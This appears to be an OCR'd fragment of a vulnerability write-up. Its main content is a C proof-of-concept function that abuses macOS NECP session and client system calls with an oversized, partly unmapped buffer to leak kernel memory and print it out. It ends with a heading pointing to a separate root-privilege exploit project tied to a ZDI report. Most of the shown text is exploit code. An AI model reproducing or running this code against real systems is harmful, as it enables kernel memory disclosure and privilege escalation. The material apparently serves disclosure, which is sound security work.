 bool necp_leak_free() {
    char yy[0xa0];
    
    int pid = getpid();
    
    if ((pid & 4) == false) {
        printf("pid not ok\n");
        return false;
    }
    
    int fd = necp_open(2);
    
    necp_session_action(fd, 0, (char*)0x7f0000000000, 0, yy, 0xa0);
    
    char client_id[0x10];

    uint8_t *buffer = (uint8_t*)map(0x21000);
    if (buffer == 0) {
        //write(1,...)
        return true;
    }
    unmap((uint64_t)&buffer[0x20000], 0x1000);
    
    int update_len = necp_client_action(fd, 15, client_id, 0x10, (char*)buffer,0x51000);
    
    int msg_len = 0x10+update_len;
    int msg_type = 2;
    
    write(1, &msg_len, 4);
    write(1, &msg_type, 4);
    
    printf("client_id:\n");
    uint64_t *p = (uint64_t*)client_id;
    printf("0x%llx 0x%llx\n", p[0], p[1]);
    write(1, &p[0], 8);
    write(1, &p[1], 8);
    
    p = (uint64_t*)buffer;
    for (int i=0; i<update_len/8; i++) {
        write(1, &p[i], 8);
    }
    
    
    return true;
}
```

# PoC of Root
see rcx17 for details. I attached the root xcode project in zdi-rcx17.
